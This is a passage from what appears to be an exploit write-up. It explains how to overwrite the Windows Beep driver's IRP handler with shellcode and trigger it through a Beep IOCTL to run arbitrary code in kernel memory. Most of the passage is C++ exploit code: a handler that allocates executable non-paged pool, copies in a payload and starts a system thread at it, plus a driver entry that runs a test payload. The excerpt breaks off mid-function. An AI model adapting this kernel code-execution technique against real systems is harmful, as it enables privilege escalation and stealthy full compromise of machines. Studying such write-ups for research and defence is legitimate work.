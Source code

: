 Once we have successfully located the IRP Handler, the next step is to write our shellcode (which essentially consists of our custom driver) to that specific memory address. After placing the shellcode, we can trigger the Beep IOCTL to initiate the exploitation. The driver code itself is relatively simple: it allocates memory, copies the shellcode into this allocated region, and then starts a new thread to execute arbitrary code.

What makes this method so powerful is that, once the thread is up and running, we gain the ability to execute virtually any code in kernel memory. This provides us with immense flexibility and control over what can be executed next. It's an incredibly elegant solution, and the credit goes to *stong* for the brilliant idea. Neat!

```C++
// Driver.c
__int64 __declspec(dllexport) __fastcall ShellCodeIrpHandler(struct _DEVICE_OBJECT* a1, IRP* irp) {

	ULONG ioctl_no = irp->Tail.Overlay.CurrentStackLocation->Parameters.DeviceIoControl.IoControlCode;
	BeepIRPStruct* pBeepStructData = (BeepIRPStruct*)irp->AssociatedIrp.SystemBuffer;

	PVOID pRwxData = pBeepStructData->nt_ExAllocatePoolWithTag(NonPagedPoolExecute, pBeepStructData->szPayloadSize, 'hoho');
	//__debugbreak();
	pBeepStructData->nt_memcpy(pRwxData, pBeepStructData->bPayload, pBeepStructData->szPayloadSize);

	// start thread
	HANDLE hThread;
	PVOID pStartAddr = (void*)((uintptr_t)pRwxData + 0x1000);
	pBeepStructData->nt_PsCreateSystemThread(&hThread, THREAD_ALL_ACCESS, NULL, NULL, NULL, (PKSTART_ROUTINE)pStartAddr, NULL);

	((void (*)(PIRP, CCHAR))pBeepStructData->nt_IofCompleteRequest)(irp, 0);

	return 0;
}

__int64 __declspec(dllexport) ShellCodeIrpHandler_end;

// ----------------------------------------------------------------
// run some attack
BOOL runTestPayload() {
	DBG_LOG("[+] Greetings From Kernel Land! \n");
	return TRUE;
}
// ----------------------------------------------------------------


DRIVER_INITIALIZE DriverEntry;
_Use_decl_annotations_
	NTSTATUS
	DriverEntry(
		struct _DRIVER_OBJECT* DriverObject,
		PUNICODE_STRING  RegistryPath
	) {

	DBG_LOG("[+] Driver Loaded Successfully \n");


	if (!runTestPayload()) {
		DBG_LOG("Executing Attack Payload Failed \n");
		return -1;
	}


	DbgPrint("[*] DONE!\n");
```